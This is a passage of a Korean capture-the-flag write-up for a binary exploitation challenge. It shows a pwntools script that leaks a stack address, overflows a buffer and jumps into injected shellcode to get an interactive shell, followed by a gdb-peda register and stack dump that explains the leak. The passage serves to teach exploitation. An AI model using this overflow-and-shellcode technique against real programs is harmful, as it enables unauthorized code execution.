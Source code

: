 ```python
stack = u32(s.recv(1024)[:4])
log.success(" leak address(hex) : "+hex(stack))
log.info(" Inject address : "+hex(stack+20))
payload = ''
payload = 'A'*20
payload += p32(stack + 20)
payload += shell
s.send(payload)
s.interactive()
```

## [+] ADD (2018-06-14)

음 자세한 설명을 덧붙히기로 한다.
leak 하는 주소와 shell 이 실행되는 과정을 설명한다.

아래는 ret 를 sys_write 주소로 변조하기 전의 정상적인 상태의 레지스터 및 스택이다.

```
[----------------------------------registers-----------------------------------]
EAX: 0xfffffe00 
EBX: 0x0 
ECX: 0xff921864 ("Let's start the CTF:\235\200\004\b\200\030\222\377\001")
EDX: 0x3c ('<')
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xff921864 ("Let's start the CTF:\235\200\004\b\200\030\222\377\001")
EIP: 0x8048099 (<_start+57>:	add    esp,0x14)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048093 <_start+51>:	mov    dl,0x3c
   0x8048095 <_start+53>:	mov    al,0x3
   0x8048097 <_start+55>:	int    0x80
=> 0x8048099 <_start+57>:	add    esp,0x14
   0x804809c <_start+60>:	ret    
   0x804809d <_exit>:	pop    esp
   0x804809e <_exit+1>:	xor    eax,eax
   0x80480a0 <_exit+3>:	inc    eax
[------------------------------------stack-------------------------------------]
0000| 0xff921864 ("Let's start the CTF:\235\200\004\b\200\030\222\377\001")
0004| 0xff921868 ("s start the CTF:\235\200\004\b\200\030\222\377\001")
0008| 0xff92186c ("art the CTF:\235\200\004\b\200\030\222\377\001")
0012| 0xff921870 ("the CTF:\235\200\004\b\200\030\222\377\001")
0016| 0xff921874 ("CTF:\235\200\004\b\200\030\222\377\001")
0020| 0xff921878 --> 0x804809d (<_exit>:	pop    esp)
0024| 0xff92187c --> 0xff921880 --> 0x1 
0028| 0xff921880 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```
